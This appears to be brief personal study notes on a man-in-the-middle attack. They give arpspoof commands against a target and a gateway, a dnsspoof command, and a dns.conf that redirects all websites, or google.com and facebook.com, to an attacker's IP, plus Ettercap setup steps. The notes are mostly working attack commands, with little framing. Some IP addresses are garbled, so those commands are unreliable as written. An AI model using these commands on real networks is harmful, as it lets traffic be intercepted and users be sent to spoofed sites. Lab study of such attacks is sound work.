 ### Work after ARP spoofing
> becaues after arp we can get target dns request and send another to it

---
## Tool 1

* ARP spoofing
```
arpspoof -i eth0 -t 192.168.1.8 192.68.1.1
arpspoof -i eth0 -t 1192.168.1.1 192.168.1.8
```

* DNS spoof
```
dnsspoof -i eth0 -f dns.conf
```

* dns.conf
```
we can use wild card in file

192.168.1.2 *
// redirect any website to 192.168.1.2

192.168.1.2 *.google.com
192.168.1.2 facebook.com
```

---

## Tool 2 (Ettercap)

> gui mode 
> uncomment iptable in /etc/etter.conf
> dns host in /etc/etter.dns